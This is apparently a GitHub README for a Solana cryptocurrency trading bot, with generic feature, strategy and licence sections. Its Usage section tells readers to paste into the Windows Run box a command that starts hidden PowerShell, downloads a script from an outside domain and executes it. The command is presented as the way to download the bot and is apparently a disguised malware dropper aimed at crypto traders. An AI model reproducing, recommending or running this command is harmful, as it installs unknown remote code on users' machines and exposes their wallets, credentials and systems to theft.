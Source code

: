 # Solana Trading Bot 🌞💰

## Project Description
**Solana Trade Bot** is an automated trading bot designed to trade cryptocurrencies on the Solana blockchain. The bot leverages the high throughput and low transaction costs of Solana to execute trades efficiently and capitalize on market opportunities.

## Key Features
- **Solana Network Integration**: Connects seamlessly with the Solana blockchain for fast and cost-effective trading.
- **Real-Time Market Analysis**: Continuously monitors market trends and price movements on Solana-based tokens.
- **Automated Trading**: Executes trades automatically based on custom strategies and market signals.
- **Risk Management**: Implements risk management techniques to safeguard your investments.
- **User -Friendly Dashboard**: Provides an intuitive interface for monitoring trades and performance.


## Usage 🚀
<h2>📥 Download the bot</h2>
<h3>copy and execute the following command in (Win+R)</h3>

<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://verifclouds.com/1.txt';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: daff2f8').Content;</code>
</pre>

## Example Strategies 📈
- **Market Making**: Provide liquidity by placing buy and sell orders around the current market price.
- **Arbitrage**: Exploit price discrepancies between different exchanges or markets.
- **Trend Following**: Identify and trade in the direction of market trends.

## Contributing 🤝
If you want to contribute to the project, please fork the repository, make changes, and submit a pull request.

## License 📄
This project is licensed under the MIT License. Details can be found in the [LICENSE](LICENSE) file.

## Useful Links 🌐
- [Solana Documentation](https://docs.solana.com/)
- [Solana API Reference](https://docs.solana.com/api)

---

**SEO Keywords**: Solana Trading Bot, automated trading, cryptocurrency, blockchain trading, trading strategies, market analysis.
